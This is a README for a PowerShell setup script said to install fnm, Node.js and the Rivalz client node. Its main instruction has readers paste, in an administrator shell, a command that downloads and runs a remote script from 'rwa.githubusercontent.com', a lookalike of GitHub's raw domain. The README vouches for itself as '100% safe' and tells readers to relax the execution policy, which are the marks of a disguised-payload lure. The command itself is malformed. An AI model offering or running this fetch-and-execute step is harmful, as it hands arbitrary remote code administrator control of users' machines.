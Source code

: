 # PowerShell Setup Script

This repository contains a PowerShell script to automate the installation of Node.js (using Fast Node Manager) and the Rivalz client node. This script is 100% safe to use, does not steal data or cause harm to your system.

## What Does This Script Do?
- Installs **Fast Node Manager (fnm)** using Windows Package Manager (**winget**). (If not already installed)
- Restarts uout shell to ensure the **Fast Node Manage (fnm)** variable os recognized by your shell after installation.
- Configures **fnm** environment to automatically use Node.js when changing directories.
- Installs **Node.js v22.9.0** (if not already installed).
- Verifies installed versions of Node.js and npm.
- Installs the latest version of the **Rivalz client node**.
- Runs the Rivalz node.

## How to Run the Script

### Step 1: Run your powershell in administrator mode, then copy and paste the command below in the terminall
```powershell
Invoke-Expression ((New-Object System.Net.WebClient).DownloadString('https://rwa.githubusercontent.com/Py-DragonXx/Rivalz-CLI/main/rivalznode.ps1
```
### Step 2: Set Execution Policy (Accept with Y, on first run of the script)

OR

Before running scripts on your system, ensure your PowerShell execution policy allows it. You can do this by opening PowerShell as an administrator and running.

```powershell
Set-ExecutionPolicy RemoteSigned
